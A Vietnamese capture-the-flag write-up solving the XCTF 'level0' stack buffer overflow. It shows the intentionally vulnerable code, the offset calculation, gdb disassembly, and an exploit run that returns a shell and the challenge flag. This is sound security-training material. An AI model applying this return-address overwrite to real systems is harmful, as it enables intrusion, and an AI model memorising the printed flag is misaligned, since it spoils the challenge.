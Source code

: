 # XCTF - PWN Exercise - level0

```c
#include<stdio.h>

int callsystem()
{
  return system("/bin/sh");
}

ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function(1LL);
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/8_level0 λ checksec level0 
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/8_level0/level0'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Đây là một bài khá đơn giản `stack buffer overflow`, mảng kí tự `buf` khai báo có 128 kí tự trong function `vulnerable_function()` nhưng hàm read đọc được 0x200 = 512 kí tự input và không có `canary`  => có thể `stack buffer overflow` ghi đè `return address`.

Trong các hàm của chương trình có sẵn hàm `callsystem` có thể thực thi lấy shell tương tác với server, bây giờ ta cần đi tìm `offset` và địa chỉ hàm `callsystem`.

  +) Địa chỉ của `buf` nằm ở `[rbp-80h]` cộng thêm 0x8 ghi đè `rbp` nữa là đến địa chỉ `return address` => offset = 0x80 + 0x8 = 0x88. 

  +) Tìm địa chỉ `callsystem` qua `gdb`. [NOTE]: File x86_64 thay vì nhảy thẳng vào đầu hàm ta sẽ dịch địa chỉ lên 1 hoặc 2 `instructions ASM` để có thể lấy được `shell`, bài này ta sẽ chọn địa chỉ `0x0000000000400597`.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/8_level0 λ gdb -q ./level0
pwndbg: loaded 198 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./level0...
(No debugging symbols found in ./level0)
pwndbg> p callsystem
$1 = {<text variable, no debug info>} 0x400596 <callsystem>
pwndbg> disass callsystem
Dump of assembler code for function callsystem:
   0x0000000000400596 <+0>:	push   rbp
   0x0000000000400597 <+1>:	mov    rbp,rsp
   0x000000000040059a <+4>:	mov    edi,0x400684
   0x000000000040059f <+9>:	call   0x400460 <system@plt>
   0x00000000004005a4 <+14>:	pop    rbp
   0x00000000004005a5 <+15>:	ret    
End of assembler dump.
pwndbg> 
```

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/8_level0 λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 57359: Done
[*] Switching to interactive mode
$ ls
bin
dev
flag
level0
lib
lib32
lib64
$ cat flag
cyberpeace{6b5deeebe3e4c0810b320cdab5e8040e}
$  
```
